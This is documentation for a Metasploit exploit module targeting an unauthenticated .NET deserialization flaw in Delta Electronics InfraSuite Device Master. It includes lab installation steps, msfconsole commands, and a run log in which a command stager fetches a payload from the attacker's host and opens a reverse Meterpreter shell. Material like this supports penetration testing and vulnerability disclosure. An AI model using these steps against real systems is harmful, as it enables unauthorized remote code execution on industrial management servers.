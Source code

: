 ## Vulnerable Application

Delta Electronics InfraSuite Device Master versions below `v1.0.5` are vulnerable to
an unauthenticated .NET deserialization vulnerability in the `Device-Gateway-Status` process which
listens on port `10100` and communicates over UDP. Its `ParseUDPPacket()` method reads user-controlled
data and passes what it determines to be the packet header to the `BinaryFormatter.Deserialize()` method without appropriate validation,
resulting in code execution as the user running the `Device-Gateway-Status` process.

### Installation Instructions

1. Unzip and run the installer
2. Install all of the pre-requisites (Stack Builder is not needed) and reboot
3. Click `next` and ensure the three features, `Device-Monitor`, `Device-DataCollect`, and `Device-Gateway` are selected to install
4. The password on the next screen should say `Ems3000!`, but it is not needed for the exploit
5. Click `Next`, then `Install`
6. Click `Finish`, then wait for the processing of files to finish
7. Once the previous step is done, ensure `Yes, I want to restart my computer now` is checked and click `Finish`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/delta_electronics_infrasuite_deserialization`
4. Do: `set RHOST <IP>`
5. Do: `set INFRASUITE_PORT <PORT_NO>`
6. Do: `run`
7. You should get a meterpreter session.

## Options

### INFRASUITE_PORT

This is the option on which the web-based InfraSuite Device Manager listens. It is
only used to check the version of the software to determine exploitability. 80 by default

## Scenarios

### InfraSuite Device Master v01.00.00d on Windows 10 x64

```
msf6 exploit(windows/misc/delta_electronics_infrasuite_deserialization) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting the login page to determine if target is Infrasuite Device Master...
[*] Target is InfraSuite Device Master. Now attempting to determine version.
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.140.1:8080/xkRhewOXntAgYs
[*] Command Stager progress - 100.00% done (153/153 bytes)
[*] Client 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673) requested /xkRhewOXntAgYs
[*] Sending payload to 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673)
[*] Sending stage (175686 bytes) to 192.168.140.187
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.187:50409) at 2023-06-05 17:09:29 -0500
[*] Server stopped.

meterpreter > getuid
Server username: DESKTOP-R6RCNHH\space
meterpreter > sysinfo
Computer        : DESKTOP-R6RCNHH
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x86/windows
meterpreter >
```
